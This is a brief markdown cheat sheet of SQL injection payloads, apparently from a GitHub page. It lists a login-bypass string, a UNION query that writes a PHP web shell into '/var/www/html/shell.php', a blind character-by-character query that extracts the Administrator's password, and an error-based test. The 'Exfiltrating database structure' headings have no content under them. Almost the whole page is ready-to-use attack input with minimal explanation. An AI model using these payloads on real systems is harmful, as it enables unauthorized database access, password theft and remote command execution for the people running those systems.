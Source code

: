 # SQLi payloads
`' OR 1=1--`


## File write:
`' UNION SELECT NULL,'<?php system($_GET["cmd"]); ?>',NULL,NULL,NULL into outfile '/var/www/html/shell.php'-- -`

## Guessing characters one at a time
`xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 'm`

## Exfiltrating database structure
> Sqlite:

> MySQL:

## Error based SQLi
`xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a' -- `
If 1=1, this will throw an error.